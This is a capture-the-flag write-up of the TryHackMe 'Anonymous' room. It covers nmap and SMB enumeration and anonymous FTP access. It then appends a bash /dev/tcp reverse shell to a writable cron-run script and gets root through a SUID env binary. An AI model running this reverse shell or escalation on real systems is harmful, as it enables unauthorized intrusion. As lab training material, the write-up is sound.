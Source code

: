 ```yaml
---
title: THM - Anonymous
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/anonymous/anonymous.png"
alt: "tryhackme"
---
```



![banner](/img/thm/anonymous/anonymous.png) 
<hr>

# Questions
* Enumerate the machine.  How many ports are open?
* What service is running on port 21?
* What service is running on ports 139 and 445?
* There's a share on the user's computer.  What's it called?
<br>

Ok, we have four questions before User and Root flags, let's start enumerating the machine to answer the first one.

[Anonymous room](https://tryhackme.com/room/anonymous)

# Enumeration
![nmap](/img/thm/anonymous/nmap.png)

Let's start with standard nmap scan `nmap -sC -sV -oA nmap -v $IP`.
* sC - Default nmap scripts
* sV - Open ports services/version
* oA - Save output to 'nmap' file
* v  - Verbose mode

This is enough to answer the first tree questions. There's four open ports: 21 FTP, 22 SSH, 139 and 445 Samba.

To fourth question we'll need to run an another nmap script. As we can see, there are a Samba service running on machine, so we'll use a nse script to enumerate it. `nmap --script smb-enum-shares.nse -p 445,139 -v -oA smb $IP`

![smb](/img/thm/anonymous/smbNmap.png)

Nice, question answered, but why not access it? Using smbclient we can access this share and check it out. `smbclient \\\\$IP\\pics`

![smbclient](/img/thm/anonymous/smbclient.png)

Ok, nothing interesting here, so let's take a look at FTP server. It's allowing anonymous login.

![ftp](/img/thm/anonymous/ftpFiles.png)

Here I found 3 files:
* clean.sh
* removed_files.log
* to_do.txt

With basics FTP commands can we download these files to check it out. Taking a look at log file can I presume that `clean.sh` files are constantly being executed. So let's read it.

![cleansh](/img/thm/anonymous/cleanSh.png)

We have permissions to write inside this file, so let's do it with `append` command. First of all create a local file and put `bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT <&1'` inside it.

![shell](/img/thm/anonymous/shell.png)

Then we'll append it to remote file, it will execute this command and give us a reverse shell.

![append](/img/thm/anonymous/append.png)

Don't forget to run Netcat to wait connection.

![user](/img/thm/anonymous/user.png)

Ok, it's PRIVESC TIME! To do it I used LinPEAS and reading the output I found something strange. Running a basic command can we get a root shell. So just typing `/usr/bin/env /bin/sh -p` we scalate our privileges.

![root](/img/thm/anonymous/root.png)
